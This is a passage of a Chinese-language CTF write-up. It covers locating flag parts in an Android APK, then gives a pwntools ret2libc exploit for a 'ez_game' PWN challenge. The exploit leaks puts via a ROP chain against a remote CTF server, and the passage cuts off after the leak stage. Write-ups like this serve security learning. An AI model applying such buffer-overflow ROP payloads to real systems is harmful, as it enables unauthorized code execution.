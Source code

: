 根据提示找到part2
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929130803.png)
#### part3
根据提示，在layout的activity_main中可以找到part3
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929130939.png)
#### part4
在raw中找到part4
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929131009.png)
#### part5
将apk解压，找到lib中的so文件（x86,x86-64皆可)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929131124.png)
在ida中打开，即可找到part5
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929131210.png)
#### 拼凑
拼凑五个part即可获取flag
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929131254.png)
# Week 2
## PWN
### ez_game
这周最简单的一道题，一道简单的ret2libc
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215022.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215127.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215110.png)
构造exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./attachment')
    pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('101.200.139.65', 30780)

elf = ELF('./attachment')
lib = ELF('./libc-2.31.so')

ret = 0x400509
rdi = 0x400783
rsp = 0x40077d

put_got = elf.got['puts']
put_plt = elf.plt['puts']
main = elf.symbols['func']

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50) + p64(ret) + p64(rdi) + p64(put_got) + p64(put_plt) + p64(main)
p.sendline(payload)

p.recvuntil(b'again!!\n')
```